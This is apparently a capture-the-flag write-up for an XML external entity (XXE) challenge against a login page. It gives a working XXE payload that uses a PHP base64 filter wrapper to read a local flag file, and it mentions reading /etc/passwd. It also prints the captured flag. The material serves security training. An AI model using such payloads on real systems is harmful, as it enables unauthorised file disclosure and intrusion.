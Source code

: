 # XEE1
> flag in flag.txt

## About the Challenge
We were given a website that contains a login page

![preview](images/preview.png)

And if we check the HTTP request and response when entering the username and password

![http](images/http.png)


## How to Solve?
At first, Im using a `file` protocol to read `/flag.txt` file

![first_request](images/first_request.png)

But the output was `You can't read the flag`. Im very confused because my payload was working perfectly if I want to read another file (ex: /etc/passwd)

![testing](images/testing.png)

So I decided to use PHP wrapper to encoded the output with `base64` encoding. Here is the final payload

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "php://filter/read=convert.base64-encode/resource=/flag.txt"> ]>
<user>
    <username>&ent;</username>
    <password>test</password>
</user>
```

![flag](images/flag.png)

```
dead{n1ce_br0_XE3_3z_h3h3}
```